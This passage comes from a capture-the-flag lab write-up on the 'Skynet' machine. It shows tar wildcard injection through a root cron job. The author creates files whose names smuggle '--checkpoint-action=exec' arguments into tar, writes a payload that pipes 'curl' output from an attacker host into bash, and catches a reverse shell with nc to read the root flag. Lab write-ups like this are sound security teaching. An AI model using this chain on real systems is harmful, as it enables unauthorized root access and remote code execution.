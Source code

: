 Guess it will be run by crontab

```bash
www-data@skynet:/home/milesdyson$ cat /etc/crontab|grep backup
*/1 *   * * *   root    /home/milesdyson/backups/backup.sh
```

Ok, it will be run as root

It's not writeable

```bash
www-data@skynet:/home/milesdyson$ ls -l ./backups/backup.sh
-rwxr-xr-x 1 root root 74 Sep 17  2019 ./backups/backup.sh
```


#### Privilege escalation : Abuse wildcard from arguments with tar

Google  `linux tar privilege escalation`

- [Privilege Escalation Using Wildcard Injection | by Medusa](https://systemweakness.com/privilege-escalation-using-wildcard-injection-tar-wildcard-injection-a57bc81df61c)
- [Tar Wildcard Injection PrivEsc - Exploit Notes](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/tar-wildcard-injection-privesc/)

 > [Linux Privilege Escalation: Wildcards with tar | by Ben Folland](https://medium.com/@cybenfolland/linux-privilege-escalation-wildcards-with-tar-f79ab9e407fa)

Now create a payload for privilege escalation.

```sh
cd /var/www/html
echo -e '#!/bin/bash\ncurl 10.11.19.145|bash' > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```

It will be executed by `./backups/backup.sh` as :

```bash
tar cf /home/milesdyson/backups/backup.tgz --checkpoint=1 --checkpoint=action=exec=sh shell.sh * 
```

Prepare reverse shell

```bash
┌──(kali㉿kali)-[~/thm/skynet/www]
└─$ ln -s ~/scripts/www-revshell/index.html

┌──(kali㉿kali)-[~/thm/skynet/www]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```bash
┌──(kali㉿kali)-[~/thm/skynet]
└─$ nc -lvnp 1111
listening on [any] 1111 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.131.237] 45550
bash: cannot set terminal process group (17857): Inappropriate ioctl for device
bash: no job control in this shell
root@skynet:/var/www/html# id
id
uid=0(root) gid=0(root) groups=0(root)
root@skynet:/var/www/html# cat /root/root.txt
cat /root/root.txt
3f0372db24753accc7179a282cd6a949
root@skynet:/var/www/html#
```
